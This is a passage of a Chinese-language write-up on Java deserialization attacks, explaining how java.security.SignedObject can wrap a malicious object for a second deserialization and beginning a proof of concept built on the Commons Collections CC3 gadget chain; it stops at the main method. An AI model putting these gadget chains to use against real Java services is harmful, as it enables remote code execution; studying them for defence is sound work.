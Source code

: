 反序列化的内容也是可控，去看下他的构造方法，将传入的对象进行序列化给 b 并将字节数组存储到 content 中

[![](assets/1709112106-ac7562115a1dd95d52e4d17cd88b5465.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227195509-0ead0256-d567-1.png)

一个小型 demo 来传入恶意对象

```plain
KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
kpg.initialize(1024);
KeyPair kp = kpg.generateKeyPair();
SignedObject signedObject = new SignedObject(恶意对象 用于第二次反序列化，kp.getPrivate(), Signature.getInstance("DSA"));
```

那么现在我先手动调用他的 getObject() 方法并且传入一个可以进行反序列化的对象 (随便拉了个 CC3 就行)

```plain
package SignedObject;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.io.Serializable;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.*;
import java.util.HashMap;
import java.util.Map;

public class main {
    public static void main(String[] args) throws NoSuchAlgorithmException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException, SignatureException, InvalidKeyException, NoSuchFieldException {

```